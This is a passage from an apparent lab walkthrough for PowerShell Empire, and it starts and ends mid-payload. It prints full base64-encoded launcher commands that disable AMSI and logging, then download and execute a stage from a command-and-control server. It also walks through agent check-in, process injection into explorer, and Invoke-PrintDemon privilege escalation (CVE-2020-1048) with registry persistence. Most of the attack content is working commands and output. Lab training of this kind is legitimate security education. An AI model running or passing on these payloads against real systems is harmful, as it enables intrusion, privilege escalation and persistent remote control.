AGcAQQA0AEEAQwA0AEEATQBRAEEAMABBAEQAUQBBAEwAZwBBADMAQQBEAGMAQQBPAGcAQQB4AEEARABJAEEATQB3AEEAMABBAEQAVQBBACcAKQApACkAOwAkAHQAPQAnAC8AYQBkAG0AaQBuAC8AZwBlAHQALgBwAGgAcAAnADsAJABFADYAYwBjADUALgBIAGUAQQBEAEUAcgBTAC4AQQBkAEQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJABlADYAQwBjADUALgBQAHIAbwB4AHkAPQBbAFMAWQBTAHQARQBNAC4ATgBlAHQALgBXAEUAYgBSAEUAUQB1AGUAUwB0AF0AOgA6AEQARQBGAEEAdQBsAFQAVwBlAEIAUABSAE8AWABZADsAJABFADYAQwBDADUALgBQAFIATwB4AFkALgBDAHIAZQBEAEUATgB0AEkAQQBMAFMAIAA9ACAAWwBTAHkAUwB0AGUAbQAuAE4AZQBUAC4AQwByAEUAZABFAG4AVABJAEEATABDAGEAYwBIAGUAXQA6ADoARABlAGYAQQBVAEwAdABOAEUAdABXAE8AcgBLAEMAcgBFAEQAZQBuAHQASQBhAGwAUwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJABlADYAYwBjADUALgBQAHIAbwB4AHkAOwAkAEsAPQBbAFMAeQBTAFQAZQBtAC4AVABFAHgAdAAuAEUAbgBDAE8ARABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAEUAVABCAFkAVABFAHMAKAAnAGEAdwBYAFUARABrAGkAdAA8AG8AVgA5AEoAYwBSAE8ATAB7ACUAZwBRAC4AfAAzAG4ASABxAE0AcABBAC8AbAAnACkAOwAkAFIAPQB7ACQARAAsACQASwA9ACQAQQByAEcAcwA7ACQAUwA9ADAALgAuADIANQA1ADsAMAAuAC4AMgA1ADUAfAAlAHsAJABKAD0AKAAkAEoAKwAkAFMAWwAkAF8AXQArACQASwBbACQAXwAlACQASwAuAEMATwBVAG4AVABdACkAJQAyADUANgA7ACQAUwBbACQAXwBdACwAJABTAFsAJABKAF0APQAkAFMAWwAkAEoAXQAsACQAUwBbACQAXwBdAH0AOwAkAEQAfAAlAHsAJABJAD0AKAAkAEkAKwAxACkAJQAyADUANgA7ACQASAA9ACgAJABIACsAJABTAFsAJABJAF0AKQAlADIANQA2ADsAJABTAFsAJABJAF0ALAAkAFMAWwAkAEgAXQA9ACQAUwBbACQASABdACwAJABTAFsAJABJAF0AOwAkAF8ALQBCAFgAbwByACQAUwBbACgAJABTAFsAJABJAF0AKwAkAFMAWwAkAEgAXQApACUAMgA1ADYAXQB9AH0AOwAkAEUANgBjAEMANQAuAEgAZQBhAEQARQByAHMALgBBAEQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAcQBhAFUAbwBCAGcAegA9AHcAawArAHQAOAA5AHgATQBSAFUATgBqAFUAcgBtAGsASQBLAFgAQQAzAHoATQBrADcARgBrAD0AIgApADsAJABEAEEAVABhAD0AJABlADYAQwBDADUALgBEAE8AdwBOAGwATwBhAEQARABhAHQAYQAoACQAcwBlAFIAKwAkAFQAKQA7ACQASQB2AD0AJABEAGEAVABBAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABkAGEAdABBAC4ATABFAE4ARwB0AGgAXQA7AC0AagBvAGkATgBbAEMASABBAFIAWwBdAF0AKAAmACAAJABSACAAJABkAGEAdABBACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

Then check Empire for the connection

```bash
(Empire: stager/multi/launcher) > 
[*] Sending POWERSHELL stager (stage 1) to 10.64.128.245
[*] New agent PLR8WSA6 checked in
[+] Initial agent PLR8WSA6 from 10.64.128.245 now active (Slack)
[*] Sending agent (stage 2) to PLR8WSA6 at 10.64.128.245

(Empire: stager/multi/launcher) > agents

[*] Active agents:
                                                                                                                                                                                                             
 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 PLR8WSA6 ps 0.0.0.0         DESKTOP-E920628   DESKTOP-E920628\Sam     powershell         3560   5/0.0    2026-02-07 11:40:22  http            

(Empire: agents) > interact PLR8WSA6
(Empire: PLR8WSA6) > 
```

### Task 6: Spawn as a New Process

The session launched from Evil-WinRM has limitations with PowerShell. You will need to spawn a new process with Empire to be able to continue with the exercise. First, find a new process to migrate to using [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7) (aliased as ps). Typically you will want to aim for a common process that is stable and won't be closed by a used (e.g., explorer).

`ps`



Active process list in Empire

```bash
(Empire: PLR8WSA6) > ps
[*] Tasked PLR8WSA6 to run TASK_SHELL
[*] Agent PLR8WSA6 tasked with task ID 1
(Empire: PLR8WSA6) > 
ProcessName              PID Arch UserName MemUsage
-----------              --- ---- -------- --------
Idle                       0 x64           0.01 MB 
System                     4 x64           0.14 MB 
taskhostw                  8 x64           13.75 MB
Registry                  68 x64           14.35 MB
smss                     452 x64           0.89 MB 
svchost                  556 x64           12.43 MB
dwm                      564 x64           36.78 MB
svchost                  596 x64           60.15 MB
csrss                    600 x64           4.14 MB 
wininit                  668 x64           5.51 MB 
csrss                    676 x64           4.11 MB 
winlogon                 752 x64           11.57 MB
services                 768 x64           6.76 MB 
svchost                  792 x64           28.80 MB
lsass                    796 x64           12.33 MB
svchost                  876 x64           25.21 MB
svchost                  892 x64           9.14 MB 
fontdrvhost              904 x64           2.27 MB 
fontdrvhost              912 x64           2.63 MB 
svchost                  984 x64           11.35 MB
svchost                 1036 x64           54.70 MB
svchost                 1076 x64           24.73 MB
svchost                 1116 x64           21.86 MB
svchost                 1352 x64           8.29 MB 
RuntimeBroker           1556 x64           24.51 MB
Memory Compression      1560 x64           39.06 MB
svchost                 1580 x64           38.66 MB
svchost                 1692 x64           7.38 MB 
svchost                 1756 x64           14.58 MB
svchost                 1788 x64           5.50 MB 
svchost                 1796 x64           7.27 MB 
svchost                 1820 x64           5.91 MB 
svchost                 1916 x64           10.56 MB
spoolsv                 2012 x64           10.54 MB
svchost                 2068 x64           21.75 MB
svchost                 2156 x64           9.33 MB 
amazon-ssm-agent        2224 x64           7.98 MB 
ctfmon                  2264 x64           10.59 MB
LiteAgent               2296 x64           4.50 MB 
dasHost                 2408 x64           8.01 MB 
sihost                  2460 x64           21.48 MB
Ec2Config               2468 x64           37.41 MB
svchost                 2624 x64           12.39 MB
conhost                 3044 x64           9.06 MB 
svchost                 3236 x64           9.27 MB 
taskhostw               3368 x64           33.25 MB
explorer                3452 x64           78.05 MB
powershell              3560 x64           94.29 MB
vds                     3860 x64           10.51 MB
ApplicationFrameHost    3924 x64           22.35 MB
taskhostw               3964 x64           18.87 MB
WmiPrvSE                4012 x64           8.07 MB 
OneDrive                4224 x86           47.35 MB
svchost                 4232 x64           14.84 MB
RuntimeBroker           4244 x64           19.58 MB
SkypeBackgroundHost     4360 x64           10.78 MB
dllhost                 4376 x64           6.05 MB 
MicrosoftEdge           4440 x64           46.18 MB
StartMenuExperienceHost 4552 x64           49.18 MB
svchost                 4628 x64           10.46 MB
RuntimeBroker           4688 x64           21.17 MB
ShellExperienceHost     4924 x64           39.56 MB
SearchUI                4948 x64           73.62 MB
SearchIndexer           4956 x64           28.13 MB
browser_broker          5196 x64           12.49 MB
svchost                 5212 x64           6.41 MB 
Windows.WARP.JITService 5312 x64           4.70 MB 
RuntimeBroker           5360 x64           15.45 MB
RuntimeBroker           5420 x64           7.02 MB 
MicrosoftEdgeCP         5496 x64           24.50 MB
MicrosoftEdgeSH         5632 x64           13.00 MB
svchost                 5856 x64           6.78 MB 
RuntimeBroker           5980 x64           13.60 MB
svchost                 6156 x64           19.41 MB
SecurityHealthService   6184 x64           12.31 MB
Microsoft.Photos        6340 x64           31.91 MB
SecurityHealthHost      6512 x64           13.90 MB
SgrmBroker              6756 x64           5.62 MB 
svchost                 7008 x64           7.25 MB 
svchost                 7104 x64           8.42 MB 
wsmprovhost             7128 x64           71.84 MB

(Empire: PLR8WSA6) > 
```

After you have selected a process, you will execute `psinject <listenername> <processid>` which will launch a new agent that is running locally and not through a remote session.



Process injection into Explorer

Remember to interact with the new agent before continuing.

```bash
(Empire: PLR8WSA6) > psinject http explorer
[*] Tasked PLR8WSA6 to run TASK_CMD_JOB
[*] Agent PLR8WSA6 tasked with task ID 4
[*] Tasked agent PLR8WSA6 to run module powershell/management/psinject
(Empire: PLR8WSA6) > 
Job started: 6DCLA5

[*] Sending POWERSHELL stager (stage 1) to 10.64.128.245                                                                                                                                                     
[*] New agent DGUEYHCT checked in
[+] Initial agent DGUEYHCT from 10.64.128.245 now active (Slack)
[*] Sending agent (stage 2) to DGUEYHCT at 10.64.128.245

(Empire: PLR8WSA6) > back
(Empire: agents) > interact DGUEYHCT
(Empire: DGUEYHCT) > 
```

---------------------------------------------------------------------------------------

#### Which process may work with psinject?

Hint: This process is the user shell, which we see as the familiar taskbar, desktop, and other user interface features.

Answer: `explorer`

### Task 7: System Check



Hijacked Print Spooler

Now that we have established a safe foothold, we want to obtain higher-level privileges. **CVE-2020-1048** means that unpatched systems prior to Windows build 2004 are vulnerable to arbitrary write anywhere vulnerability and DLL hijack through printer abuse.

Check the Windows build number:

`shell Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" -Name ReleaseId`

If the build is less than a Windows 10 Build 2004, then try using the **Invoke-Printdemon** module in Empire.

---------------------------------------------------------------------------------------

#### What is the Windows build number?

```bash
(Empire: DGUEYHCT) > shell Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" -Name ReleaseId
[*] Tasked DGUEYHCT to run TASK_SHELL
[*] Agent DGUEYHCT tasked with task ID 1
(Empire: DGUEYHCT) > 
ReleaseId    : 1903
PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows 
               NT\CurrentVersion
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT
PSChildName  : CurrentVersion
PSDrive      : HKLM
PSProvider   : Microsoft.PowerShell.Core\Registry


..Command execution completed.

(Empire: DGUEYHCT) > 
```

Answer: `1903`

### Task 8: Invoke-PrintDemon

DLL Hijacking with Invoke-PrintDemon Webinar by BC Security: [https://www.youtube.com/watch?v=tqKfM_H6vWY](https://www.youtube.com/watch?v=tqKfM_H6vWY)

[Invoke-PrintDemon](https://github.com/BC-SECURITY/Invoke-PrintDemon) is a PowerShell Empire implementation PoC using [PrintDemon](https://github.com/ionescu007/PrintDemon) and [Faxhell](https://github.com/ionescu007/faxhell). The module has the Faxhell DLL already embedded, which leverages CVE-2020-1048 for privilege escalation. The vulnerability allows an unprivileged user to gain system-level privileges through Windows Print Spooler. The module prints a DLL named ualapi.dll, which is loaded to System32. The module then places a launcher in the registry, which executes code as SYSTEM on restart.



Module information page for Invoke-PrintDemon

**Note**: You will need to use the Base64 encoded launcher to run Invoke-PrintDemon.



Base64 encoded payload from multi/launcher

1. `usemodule privesc/printdemon`
2. `set LauncherCode <Base64 Encoded Launcher>`
3. `execute`

If Invoke-PrintDemon was successful, you will receive the following messages. In the next section, you will restart the machine since the launcher is written to the registry for persistence.



Successful exploitation message from Invoke-PrintDemon

---------------------------------------------------------------------------------------

#### Successfully created print job and wrote launcher using Invoke-PrintDemon

```bash
(Empire) > usestager multi/launcher
(Empire: stager/multi/launcher) > execute
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBFAFIAUwBpAE8AbgBUAEEAYgBsAEUALgBQAFMAVgBlAHIAcwBpAG8AbgAuAE0AQQBqAG8AcgAgAC0AZwBFACAAMwApAHsAJABiAEUAMgBFADMAPQBbAFIARQBmAF0ALgBBAFMAcwBFAG0AQgBsAFkALgBHAGUAdABUAFkAcABlACgAJwBTAHkAcwB0AGUAbQAuAE0AYQBuAGEAZwBlAG0AZQBuAHQALgBBAHUAdABvAG0AYQB0AGkAbwBuAC4AVQB0AGkAbABzACcAKQAuACIARwBlAHQARgBJAGUAYABsAGQAIgAoACcAYwBhAGMAaABlAGQARwByAG8AdQBwAFAAbwBsAGkAYwB5AFMAZQB0AHQAaQBuAGcAcwAnACwAJwBOACcAKwAnAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQA7AEkARgAoACQAQgBFADIAZQAzACkAewAkADgARgBBADEAQgA9ACQAQgBFADIAZQAzAC4ARwBFAHQAVgBBAGwAdQBFACgAJABuAHUAbABsACkAOwBJAEYAKAAkADgAZgBBADEAQgBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdACkAewAkADgAZgBhADEAYgBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJAA4AEYAYQAxAGIAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQBbACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnAF0APQAwAH0AJAB2AGEAbAA9AFsAQwBvAGwATABFAEMAVABJAE8ATgBTAC4ARwBFAE4ARQByAEkAQwAuAEQAaQBjAFQASQBPAG4AQQBSAHkAWwBzAHQAcgBpAG4ARwAsAFMAeQBTAFQAZQBNAC4ATwBiAGoARQBjAHQAXQBdADoAOgBOAGUAVwAoACkAOwAkAFYAQQBMAC4AQQBkAEQAKAAnAEUAbgBhAGIAbABlAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcALAAwACkAOwAkAFYAQQBMAC4AQQBkAEQAKAAnAEUAbgBhAGIAbABlAFMAYwByAGkAcAB0AEIAbABvAGMAawBJAG4AdgBvAGMAYQB0AGkAbwBuAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAOABGAEEAMQBiAFsAJwBIAEsARQBZAF8ATABPAEMAQQBMAF8ATQBBAEMASABJAE4ARQBcAFMAbwBmAHQAdwBhAHIAZQBcAFAAbwBsAGkAYwBpAGUAcwBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAFAAbwB3AGUAcgBTAGgAZQBsAGwAXABTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAkAFYAYQBMAH0ARQBsAFMAZQB7AFsAUwBDAHIASQBwAHQAQgBsAG8AYwBLAF0ALgAiAEcARQBUAEYAaQBFAGAAbABkACIAKAAnAHMAaQBnAG4AYQB0AHUAcgBlAHMAJwAsACcATgAnACsAJwBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdABWAEEAbABVAGUAKAAkAG4AdQBsAGwALAAoAE4ARQB3AC0ATwBiAEoAZQBjAHQAIABDAE8AbABMAGUAYwB0AGkATwBuAHMALgBHAEUATgBFAHIAaQBjAC4ASABhAHMAaABTAEUAVABbAHMAVABSAGkAbgBHAF0AKQApAH0AJABSAGUAZgA9AFsAUgBFAEYAXQAuAEEAcwBTAGUATQBCAEwAWQAuAEcARQBUAFQAWQBQAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIARQBmAC4ARwBFAHQARgBpAEUATABEACgAJwBhAG0AcwBpAEkAbgBpAHQARgAnACsAJwBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAVABWAGEATABVAGUAKAAkAG4AdQBMAGwALAAkAHQAcgB1AGUAKQA7AH0AOwBbAFMAeQBzAHQAZQBNAC4ATgBFAFQALgBTAGUAcgBWAEkAQwBlAFAAbwBJAG4AdABNAGEAbgBhAGcARQByAF0AOgA6AEUAeABQAEUAYwBUADEAMAAwAEMATwBuAHQAaQBOAFUARQA9ADAAOwAkAGUANgBDAEMANQA9AE4AZQB3AC0ATwBCAEoAZQBDAFQAIABTAFkAUwB0AGUATQAuAE4ARQBUAC4AVwBFAGIAQwBsAGkAZQBuAHQAOwAkAHUAPQAnAE0AbwB6AGkAbABsAGEALwA1AC4AMAAgACgAVwBpAG4AZABvAHcAcwAgAE4AVAAgADYALgAxADsAIABXAE8AVwA2ADQAOwAgAFQAcgBpAGQAZQBuAHQALwA3AC4AMAA7ACAAcgB2ADoAMQAxAC4AMAApACAAbABpAGsAZQAgAEcAZQBjAGsAbwAnADsAJABzAGUAcgA9ACQAKABbAFQAZQB4AHQALgBFAG4AYwBPAEQAaQBuAGcAXQA6ADoAVQBuAEkAYwBPAGQARQAuAEcARQBUAFMAdABSAGkAbgBHACgAWwBDAE8ATgB2AGUAUgB0AF0AOgA6AEYAcgBvAG0AQgBBAFMARQA2ADQAUwBUAFIASQBOAEcAKAAnAGEAQQBCADAAQQBIAFEAQQBjAEEAQQA2AEEAQwA4AEEATAB3AEEAeABBAEQAawBBAE0AZwBBAHUAQQBEAEUAQQBOAGcAQQA0AEEAQwA0AEEATQBRAEEAMABBAEQAUQBBAEwAZwBBADMAQQBEAGMAQQBPAGcAQQB4AEEARABJAEEATQB3AEEAMABBAEQAVQBBACcAKQApACkAOwAkAHQAPQAnAC8AYQBkAG0AaQBuAC8AZwBlAHQALgBwAGgAcAAnADsAJABFADYAYwBDADUALgBIAGUAYQBkAEUAcgBzAC4AQQBEAEQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJABFADYAYwBjADUALgBQAHIATwB4AFkAPQBbAFMAWQBzAFQAZQBNAC4ATgBlAFQALgBXAGUAYgBSAEUAcQBVAGUAUwBUAF0AOgA6AEQARQBGAGEAVQBsAHQAVwBlAGIAUABSAG8AWABZADsAJABFADYAQwBDADUALgBQAFIAbwB4AHkALgBDAFIAZQBEAGUAbgB0AEkAYQBMAFMAIAA9ACAAWwBTAFkAUwB0AGUAbQAuAE4AZQBUAC4AQwBSAEUARABFAE4AVABpAGEAbABDAEEAYwBIAGUAXQA6ADoARABlAGYAQQBVAGwAdABOAGUAVAB3AG8AUgBLAEMAcgBlAGQAZQBOAFQAaQBBAGwAUwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJABlADYAYwBjADUALgBQAHIAbwB4AHkAOwAkAEsAPQBbAFMAeQBTAHQARQBtAC4AVABlAFgAdAAuAEUAbgBDAE8ARABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAEUAVABCAFkAdABFAHMAKAAnAGEAdwBYAFUARABrAGkAdAA8AG8AVgA5AEoAYwBSAE8ATAB7ACUAZwBRAC4AfAAzAG4ASABxAE0AcABBAC8AbAAnACkAOwAkAFIAPQB7ACQARAAsACQASwA9ACQAQQByAGcAcwA7ACQAUwA9ADAALgAuADIANQA1ADsAMAAuAC4AMgA1ADUAfAAlAHsAJABKAD0AKAAkAEoAKwAkAFMAWwAkAF8AXQArACQASwBbACQAXwAlACQASwAuAEMAbwBVAG4AdABdACkAJQAyADUANgA7ACQAUwBbACQAXwBdACwAJABTAFsAJABKAF0APQAkAFMAWwAkAEoAXQAsACQAUwBbACQAXwBdAH0AOwAkAEQAfAAlAHsAJABJAD0AKAAkAEkAKwAxACkAJQAyADUANgA7ACQASAA9ACgAJABIACsAJABTAFsAJABJAF0AKQAlADIANQA2ADsAJABTAFsAJABJAF0ALAAkAFMAWwAkAEgAXQA9ACQAUwBbACQASABdACwAJABTAFsAJABJAF0AOwAkAF8ALQBCAFgATwByACQAUwBbACgAJABTAFsAJABJAF0AKwAkAFMAWwAkAEgAXQApACUAMgA1ADYAXQB9AH0AOwAkAEUANgBjAEMANQAuAEgAZQBBAEQAZQBSAFMALgBBAEQARAAoACIAQwBvAG8AawBpAGUAIgAsACIAcQBhAFUAbwBCAGcAegA9AEYAMAB2AGUAQQB1AGEAbABqAFoAaABKAHUANAB0AGwAKwB6AEoASgA1ACsAUwBCAHAAdwAwAD0AIgApADsAJABkAEEAdABBAD0AJABFADYAYwBDADUALgBEAE8AdwBOAEwAbwBhAGQARABhAHQAQQAoACQAcwBlAHIAKwAkAFQAKQA7ACQAaQB2AD0AJABkAEEAdABBAFsAMAAuAC4AMwBdADsAJABkAEEAVABBAD0AJABkAEEAVABBAFsANAAuAC4AJABkAGEAdABBAC4ATABFAG4ARwBUAEgAXQA7AC0ASgBvAEkAbgBbAEMAaABBAHIAWwBdAF0AKAAmACAAJABSACAAJABEAGEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
(Empire: stager/multi/launcher) > main
(Empire) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 PLR8WSA6 ps 0.0.0.0         DESKTOP-E920628   DESKTOP-E920628\Sam     powershell         3560   5/0.0    2026-02-07 12:22:07  http            
 DGUEYHCT ps 10.64.128.245   DESKTOP-E920628   DESKTOP-E920628\Sam     explorer           3452   5/0.0    2026-02-07 12:22:09  http            

(Empire: agents) > interact DGUEYHCT
(Empire: DGUEYHCT) > usemodule privesc/printdemon
ARQBmAF0ALgBBAFMAcwBFAG0AQgBsAFkALgBHAGUAdABUAFkAcABlACgAJwBTAHkAcwB0AGUAbQAuAE0AYQBuAGEAZwBlAG0AZQBuAHQALgBBAHUAdABvAG0AYQB0AGkAbwBuAC4AVQB0AGkAbABzACcAKQAuACIARwBlAHQARgBJAGUAYABsAGQAIgAoACcAYwBhAGMAaABlAGQARwByAG8AdQBwAFAAbwBsAGkAYwB5AFMAZQB0AHQAaQBuAGcAcwAnACwAJwBOACcAKwAnAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQA7AEkARgAoACQAQgBFADIAZQAzACkAewAkADgARgBBADEAQgA9ACQAQgBFADIAZQAzAC4ARwBFAHQAVgBBAGwAdQBFACgAJABuAHUAbABsACkAOwBJAEYAKAAkADgAZgBBADEAQgBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdACkAewAkADgAZgBhADEAYgBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJAA4AEYAYQAxAGIAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQBbACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnAF0APQAwAH0AJAB2AGEAbAA9AFsAQwBvAGwATABFAEMAVABJAE8ATgBTAC4ARwBFAE4ARQByAEkAQwAuAEQAaQBjAFQASQBPAG4AQQBSAHkAWwBzAHQAcgBpAG4ARwAsAFMAeQBTAFQAZQBNAC4ATwBiAGoARQBjAHQAXQBdADoAOgBOAGUAVwAoACkAOwAkAFYAQQBMAC4AQQBkAEQAKAAnAEUAbgBhAGIAbABlAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcALAAwACkAOwAkAFYAQQBMAC4AQQBkAEQAKAAnAEUAbgBhAGIAbABlAFMAYwByAGkAcAB0AEIAbABvAGMAawBJAG4AdgBvAGMAYQB0AGkAbwBuAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAOABGAEEAMQBiAFsAJwBIAEsARQBZAF8ATABPAEMAQQBMAF8ATQBBAEMASABJAE4ARQBcAFMAbwBmAHQAdwBhAHIAZQBcAFAAbwBsAGkAYwBpAGUAcwBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAFAAbwB3AGUAcgBTAGgAZQBsAGwAXABTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAkAFYAYQBMAH0ARQBsAFMAZQB7AFsAUwBDAHIASQBwAHQAQgBsAG8AYwBLAF0ALgAiAEcARQBUAEYAaQBFAGAAbABkACIAKAAnAHMAaQBnAG4AYQB0AHUAcgBlAHMAJwAsACcATgAnACsAJwBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdABWAEEAbABVAGUAKAAkAG4AdQBsAGwALAAoAE4ARQB3AC0ATwBiAEoAZQBjAHQAIABDAE8AbABMAGUAYwB0AGkATwBuAHMALgBHAEUATgBFAHIAaQBjAC4ASABhAHMAaABTAEUAVABbAHMAVABSAGkAbgBHAF0AKQApAH0AJABSAGUAZgA9AFsAUgBFAEYAXQAuAEEAcwBTAGUATQBCAEwAWQAuAEcARQBUAFQAWQBQAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIARQBmAC4ARwBFAHQARgBpAEUATABEACgAJwBhAG0AcwBpAEkAbgBpAHQARgAnACsAJwBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAVABWAGEATABVAGUAKAAkAG4AdQBMAGwALAAkAHQAcgB1AGUAKQA7AH0AOwBbAFMAeQBzAHQAZQBNAC4ATgBFAFQALgBTAGUAcgBWAEkAQwBlAFAAbwBJAG4AdABNAGEAbgBhAGcARQByAF0AOgA6AEUAeABQAEUAYwBUADEAMAAwAEMATwBuAHQAaQBOAFUARQA9ADAAOwAkAGUANgBDAE